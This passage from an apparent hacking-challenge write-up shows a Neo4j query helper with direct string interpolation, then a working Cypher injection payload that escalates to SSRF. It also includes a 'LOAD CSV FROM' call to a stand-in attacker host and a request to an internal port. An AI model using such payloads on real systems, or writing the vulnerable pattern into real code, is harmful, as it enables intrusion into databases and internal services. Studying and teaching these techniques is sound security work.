 ```python
        implant_data=implants,
        connections=implant_connections
    )
...
```

Let's see if we can reach any sink with our input in `search_implant_connections`.

```python
# neo4j.py

...
    def search_implant_connections(self, search_query=None):
        implants = self.query(f"""
        MATCH (i1:Implant)-[:CONNECTED_TO]->(i2:Implant)
        WHERE i1.identifier = '{search_query}' OR i2.identifier = '{search_query}'
        RETURN i1.identifier AS identifier1, i2.identifier AS identifier2
        /*Fetches all connections for a select implant*/
        """)

        connections = []
        for record in implants:
            connection = {
                "identifier1": record["identifier1"],
                "identifier2": record["identifier2"]
            }
            connections.append(connection)

        return connections 
...
```

We have direct string interpolation into the query via `{search_query}`. During the live event this was my first ever encounter with injection into neo4j commands (which I now know as Cypher injection) so I spent a while frantically googling. I relied heavily on these two resources:
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#common-cypher-injections)
- [Pentesterland](https://pentester.land/blog/cypher-injection-cheatsheet/#load-csv)
The exact steps I used to arrive at my final query are a blur now but I recall fixing the return syntax was a requirement, as was using an open inline comment to ignore the rest of the broken query. Also wasting a lot of time trying to use apoc before realising it was not installed....  anyway after this I discovered we can achieve an SSRF with  `LOAD CSV FROM 'https://attacker.com/'`. After a lot of fuzzing and tweaking I discovered we can hit internal endpoints using this method with the following query:
```
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'http://127.0.0.1:1234/' as l RETURN 1 as identifier1,2 as identifier2/*
```

confirmed by starting a listener inside the docker container to receive the request:

[![](assets/image/attachments/docker-nc-cathc-neo4j-ssrf.png)](assets/image/attachments/docker-nc-cathc-neo4j-ssrf.png){:.glightbox}
